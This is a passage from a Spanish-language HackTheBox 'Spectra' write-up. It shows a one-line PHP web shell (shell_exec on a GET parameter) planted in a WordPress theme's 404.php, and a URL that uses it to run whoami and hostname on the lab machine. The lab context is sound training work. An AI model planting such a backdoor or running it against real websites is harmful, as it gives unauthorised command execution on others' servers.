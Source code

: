 > File edited successfully.

![317page80_theme_seven_404php_editHola](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/spectra/317page80_theme_seven_404php_editHola.png)

![317page80_wp_admin_tE_twenty_404php_editHola](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/spectra/317page80_wp_admin_tE_twenty_404php_editHola.png)

Perfecto, podemos ver el contenido modificado. Ahora con esto podemos ejecutar comandos en el sistema, validémoslo:

```php
...
$coma=shell_exec($_GET['xmd']); echo $coma;
...
```

Le indicamos que nos guarde en la variable `xmd` todo lo que se envíe por medio de una petición `GET` (por medio de la URL) y que ese valor lo ejecute en el sistema (`shell_exec`) y su resultado nos lo guarde en la variable `coma`, despues simplemente mostramos ese valor. Veámoslo en ejecución:

Le decimos que nos muestre quien somos y en que hostname estamos:

```html
http://10.10.10.229/main/wp-content/themes/twentyseventeen/404.php?xmd=whoami;hostname
```
